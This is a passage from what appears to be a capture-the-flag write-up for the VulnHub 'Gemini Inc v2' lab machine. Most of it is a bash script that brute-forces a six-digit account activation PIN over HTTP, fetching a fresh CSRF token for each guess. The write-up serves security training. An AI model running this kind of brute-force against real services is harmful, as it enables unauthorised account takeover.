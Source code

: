 Armed with this information, I wrote `activate.sh`, a simple script to brute-force the activation code.

{% highlight bash linenos %}
#!/bin/bash

HOST=192.168.10.130
ACTIVATE=activate.php
ME=$(basename $0)

function token() {
  local COOKIE=""
  if [ -e cookie ]; then
    COOKIE=" -b cookie"
  else
    COOKIE="-c cookie"
  fi
  curl \
    -s \
    $COOKIE \
    http://$HOST/$1 2>/dev/null \
  | grep -m1 token \
  | cut -d"'" -f6
}

function activate() {
  curl \
    -s \
    -b cookie \
    -w %{http_code} \
    -o /dev/null \
    --data-urlencode "userid=$1" \
    --data-urlencode "activation_code=$2" \
    --data-urlencode "token=$(token $ACTIVATE)" \
    http://$HOST/$ACTIVATE
}

function die() {
  rm -f cookie
  for pid in $(ps aux \
               | grep -v grep \
               | grep "$ME" \
               | awk '{ print $2 }'); do
    kill -9 $pid &>/dev/null
  done
}

# activation
for pin in {000000..999999}; do
  if [ "$(activate $1 $pin $(token $ACTIVATE))" -ne 403 ]; then
    echo "[+] uid: $1, pin: $pin"
    die
  fi
done
{% endhighlight %}


[1]: https://www.vulnhub.com/entry/gemini-inc-1,227/
[2]: https://twitter.com/@sec_9emin1
[3]: https://scriptkidd1e.wordpress.com/2018/04/29/gemini-inc-v2-vulnerable-machine/